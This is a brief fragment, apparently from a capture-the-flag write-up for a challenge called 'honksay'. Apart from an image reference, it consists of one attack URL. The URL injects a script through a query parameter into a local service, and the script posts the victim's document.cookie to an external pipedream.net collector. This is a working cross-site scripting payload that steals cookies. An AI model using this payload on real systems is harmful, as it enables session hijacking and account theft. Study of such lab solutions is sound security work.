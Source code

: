 honksay:
http://localhost:9988/changehonk?newhonk[amountoftimeshonked]=<script>fetch('https://eogqhku9vcrenaj.m.pipedream.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
